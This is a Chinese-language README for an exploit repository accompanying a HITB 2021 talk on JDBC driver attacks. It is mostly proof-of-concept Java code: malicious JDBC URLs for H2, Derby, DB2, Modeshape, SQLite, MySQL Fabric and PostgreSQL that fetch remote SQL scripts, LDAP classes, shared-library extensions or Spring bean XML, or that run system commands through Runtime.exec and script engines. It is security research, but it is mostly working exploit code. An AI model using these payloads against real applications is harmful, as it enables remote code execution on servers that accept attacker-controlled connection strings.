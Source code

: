 # atkjdbc

HITB SECCONF Singapore-2021 议题 [Make JDBC Attacks Brilliant Again](https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf) 的利用代码。
对议题内容进行了一些拓展，补充了利用方式和 Poc 代码。

## Content

仓库包含以下数据库 JDBC Driver 的 Poc 代码。

### Spring Boot H2 Console

出网

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'
```

不出网，通过多语句执行，

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"trganda\"\\;}'\\;CALL EXEC ('open -a Calculator.app')
```

#### SourceCompiler

或通过脚本语言引擎，支持 Javascript、Ruby、Groovy。

Javascript，

```java
@Test
public void js() throws SQLException {
    String javascript =
            "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";

    // only work on old h2 version
    // String oldUrl =
    //            "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;MODE=MSSQLServer;INIT=CREATE
    // TRIGGER POC BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"
    //                + javascript
    //                + "'";

    String url =
            "jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
                    + javascript
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

JRuby，

```java
@Test
public void ruby() throws SQLException {
    String ruby =
            "#ruby\nrequire \"java\"\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url =
            "jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '"
                    + ruby
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

Groovy

```java
@Test
public void groovyAsset() throws SQLException {
    String groovy =
            "@groovy.transform.ASTTest(value={"
                    + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")"
                    + "})"
                    + "def x";
    String url =
            "jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS T5 AS '"
                    + groovy
                    + "'";

    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

### Apache Derby

Master 模式下，借助反序列化，slave 会返回恶意数据。

```java
@Test
public void derby() throws SQLException {
    DriverManager.getConnection("jdbc:derby:db;startMaster=true;slaveHost=127.0.0.1");
}
```

### IBM H2

JNDI 注入

```java
@Test
public void db2() throws SQLException {
    String url =
            "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/evilClass;";
    DriverManager.getConnection(url);
}
```

### Java Content Repository

JCR 的实现 Modeshape 可以使用 JNDI。


```java
@Test
public void modeshape() throws SQLException {
    String url = "jdbc:jcr:jndi:ldap://127.0.0.1:1389/evilClass";
    DriverManager.getConnection(url);
}
```

### SQLite

议题原分享者，只是假设有一个可控的 SQLite Extension 文件的话可以利用。
但实际上仅通过 SQLite Driver 就足够达到这一点了，因为它内部的 SSRF 本事就是一个文件上传的功能，只不过有大小限制。

目前只在 Ubuntu 测试过，编译 `poc.c` 文件，

```sh
gcc -Os -flto -fdata-sections -ffunction-sections -c poc.c
```

通过 `poc.lds` 链接脚本，编译 Extension（保证体积不超过 8K），

```sh
gcc -T poc.lds -fPIC -s -nostartfiles -nostdlib -flto -shared poc.o -o pocs.so
```

执行 Poc 代码

```java
public static void createDb(String path) {
	File dbFile = new File("src/main/resources/poc.db");
	if (dbFile.exists()) {
		dbFile.delete();
	}

	try (Connection conn =
			 DriverManager.getConnection(
				 String.format("jdbc:sqlite:%s", "src/main/resources/poc.db"));) {
		conn.setAutoCommit(true);
		Statement statement = conn.createStatement();
		statement.execute(String.format("CREATE VIEW POC AS SELECT load_extension('%s', 'poc');", path));
		statement.close();
	} catch (SQLException e) {
		// ttk...
	}
}

@Test
public void sqlite() throws SQLException, MalformedURLException {

	String extensionUrl = "http://127.0.0.1:8001/poc.so";

	URL resourceAddr = new URL(extensionUrl);
	String extensionPath = String.format("/tmp/sqlite-jdbc-tmp-%d.db", resourceAddr.hashCode());
	System.out.println(extensionPath);

	createDb(extensionPath);

	System.out.println(System.getProperty("java.io.tmpdir"));

	// upload extension file
	Connection conn =
			DriverManager.getConnection(
					String.format("jdbc:sqlite::resource:%s", extensionUrl));
	conn.close();

	// poc
	String url =
			"jdbc:sqlite::resource:http://127.0.0.1:8001/poc.db?enable_load_extension=true";
	Connection connection = DriverManager.getConnection(url);
	connection.setAutoCommit(true);

	Statement statement = connection.createStatement();
	statement.execute("SELECT * FROM POC");

	statement.close();
	connection.close();
}
```

另一种攻击方式是利用 magellan 漏洞，超出知识范围，暂未实现。

### MySQL Fabric

利用 XMLRPC，实现 XML 外部实体注入。

```java
@Test
public void fabric() throws SQLException {
	String url = "jdbc:mysql:fabric://127.0.0.1:5000";
	Connection conn = DriverManager.getConnection(url);
}
```

### Postgresql

利用自定义类加载和构造方法

- `org.springframework.context.support.ClassPathXmlApplicationContext`
- `org.springframework.context.support.FileSystemXmlApplicationContext`
- `java.io.FileOutputStream`

```java
@Test
public void socketFactory() throws SQLException {
	String url = "jdbc:postgresql://localhost/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=ftp://127.0.0.1:2121/bean.xml";
	DriverManager.getConnection(url);
}

@Test
public void sslFactory() throws SQLException {
	String url = "jdbc:postgresql://localhost/test?sslfactory=org.springframework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=ftp://127.0.0.1:2121/bean.xml";
	DriverManager.getConnection(url);
}
```
